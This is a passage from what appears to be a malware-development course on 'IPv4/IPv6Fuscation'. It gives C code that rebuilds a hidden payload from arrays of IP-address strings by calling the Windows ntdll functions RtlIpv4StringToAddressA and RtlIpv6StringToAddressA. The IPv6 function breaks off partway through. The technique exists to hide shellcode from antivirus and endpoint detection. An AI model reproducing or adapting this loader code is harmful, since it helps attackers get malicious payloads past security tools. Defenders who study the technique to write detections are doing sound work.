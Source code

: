 ```
		// Deobfuscating one IPv4 address at a time
		// Ipv4Array[i] is a single ipv4 address from the array Ipv4Array
		if ((STATUS = pRtlIpv4StringToAddressA(Ipv4Array[i], FALSE, &Terminator, TmpBuffer)) != 0x0) {
			// if it failed
			printf("[!] RtlIpv4StringToAddressA Failed At [%s] With Error 0x%0.8X", Ipv4Array[i], STATUS);
			return FALSE;
		}

		// 4 bytes are written to TmpBuffer at a time
		// Therefore Tmpbuffer will be incremented by 4 to store the upcoming 4 bytes
		TmpBuffer = (PBYTE)(TmpBuffer + 4);

	}

	// Save the base address & size of the deobfuscated payload
	*ppDAddress     = pBuffer;
	*pDSize         = sBuffSize;

	return TRUE;
}

```
The image below shows the deobfuscation process successfully running.




[![](21%20Payload%20Obfuscation%20-%20IPv4%20IPv6Fuscation%209f7b77eecf01460d8d898195f70f4790/ipv4fuscation.png)](21%20Payload%20Obfuscation%20-%20IPv4%20IPv6Fuscation%209f7b77eecf01460d8d898195f70f4790/ipv4fuscation.png)### **Deobfuscating IPv6Fuscation Payloads**

Everything in the deobfuscation process for IPv6 is the same as IPv4 with the only two main differences being:

1. `RtlIpv6StringToAddressA` is used instead of `RtlIpv4StringToAddressA`.
2. Each IPv6 address is being deobfuscated into 16 bytes instead of 4 bytes.


```
typedef NTSTATUS(NTAPI* fnRtlIpv6StringToAddressA)(
	PCSTR		S,
	PCSTR*		Terminator,
	PVOID		Addr
);

BOOL Ipv6Deobfuscation(IN CHAR* Ipv6Array[], IN SIZE_T NmbrOfElements, OUT PBYTE* ppDAddress, OUT SIZE_T* pDSize) {

	PBYTE           pBuffer                 = NULL,
                    TmpBuffer               = NULL;

	SIZE_T          sBuffSize               = NULL;

	PCSTR           Terminator              = NULL;

	NTSTATUS        STATUS                  = NULL;

	// Getting RtlIpv6StringToAddressA address from ntdll.dll
	fnRtlIpv6StringToAddressA pRtlIpv6StringToAddressA = (fnRtlIpv6StringToAddressA)GetProcAddress(GetModuleHandle(TEXT("NTDLL")), "RtlIpv6StringToAddressA");
	if (pRtlIpv6StringToAddressA == NULL) {
		printf("[!] GetProcAddress Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

```